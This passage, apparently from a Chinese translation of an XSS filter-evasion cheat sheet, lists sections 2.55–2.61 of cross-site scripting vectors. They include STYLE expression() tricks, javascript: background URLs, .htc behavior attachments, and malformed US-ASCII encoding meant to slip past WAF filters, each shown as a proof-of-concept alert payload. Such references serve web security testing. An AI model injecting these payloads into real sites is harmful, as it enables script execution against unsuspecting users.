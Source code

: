 


### 2.55.    含表达式的IMG STYLE

这是一个将上面XSS攻击向量混合的方法，但确实展示了STYLE标签可以用相当复杂的方式分隔，和上面一样，也会让IE进入死循环:


exp/<A STYLE='no\xss:noxss("//*");

xss:ex/XSS////pression(alert("XSS"))'>





### 2.56.    STYLE标签（仅旧版本Netscape可用）


<STYLE TYPE="text/javascript">alert('XSS');</STYLE>




### 2.57.    使用背景图像的STYLE标签


<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>


 

### 2.58.    使用背景的STYLE标签


<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>




### 2.59.    含STYLE属性的HTML任意标签

IE6.0和IE渲染引擎模式下的Netscape 8.1+并不关心你建立的HTML标签是否存在，只要是由尖括号和字母开始的即可:


<XSS STYLE="behavior: url(xss.htc);">




### 2.60.    本地htc文件

这和上面两个跨站脚本攻击向量有些不同，因为它使用了一个必须和XSS攻击向量在相同服务器上的.htc文件。这个示例文件通过下载JavaScript并将其作为style属性的一部分运行来进行攻击：


<XSS STYLE="behavior: url(xss.htc);">




### 2.61.    US-ASCII编码

US-ASCII编码（由Kurt Huwig发现）。它使用了畸形的7位ASCII编码来代替8位。这个XSS攻击向量可以绕过大多数内容过滤器，但是只在主机使用US-ASCII编码传输数据时有效，或者可以自己设置编码格式。相对绕过服务器端过滤，这在绕过WAF跨站脚本过滤时候更有效。Apache Tomcat是目前唯一已知使用US-ASCII编码传输的：


¼script¾alert(¢XSS¢)¼/script¾
